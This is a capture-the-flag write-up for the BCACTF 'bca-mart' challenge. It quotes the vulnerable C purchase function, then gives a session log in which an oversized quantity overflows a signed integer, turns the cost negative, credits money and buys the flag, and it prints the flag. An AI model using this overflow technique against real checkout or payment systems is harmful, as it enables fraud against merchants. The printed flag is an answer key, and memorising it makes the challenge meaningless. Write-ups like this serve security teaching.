

1) `nc bin.bcactf.com 49153`
1) takes us to a store page where we can buy stuff, we only have $15, but the flag costs $100.
1) looking at a snippet of [bca-mart.c](bca-mart.c) 
```
int purchase(char *item, int cost) {
    int amount;
    printf("How many %s would you like to buy?\n", item);
    printf("> ");
    scanf("%d", &amount);

    if (amount > 0) {
        cost *= amount;
        printf("That'll cost $%d.\n", cost);
```
you can tell that you enter an amount of something to buy and it's stored as an int. "cost" is then calculated by multiplying the item cost and the amount you ordered.  

4) We can exploit this to force the cost to be a negative number therefore making our "purchase" give us money. Then once we have the money we can buy a flag.

5) we need to enter an amount that will still be valid, but when multiplied by the cost will go over the 2,147,483,647 threshold to force the sign to flip.

6) I attempted to buy 2100000000  BCA merch at $20 each
```
You currently have $3.
What would you like to buy?
> 5   
How many wonderfully-designed t-shirts would you like to buy?
> 2100000000
That'll cost $-949672960.
Thanks for your purchse!

1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $949672963.
What would you like to buy?
> 6
How many super-cool ctf flags would you like to buy?
> 1
That'll cost $100.
Thanks for your purchse!
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}
```
7) We got the money and then simply purchased the flag
8) flag: **bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}**
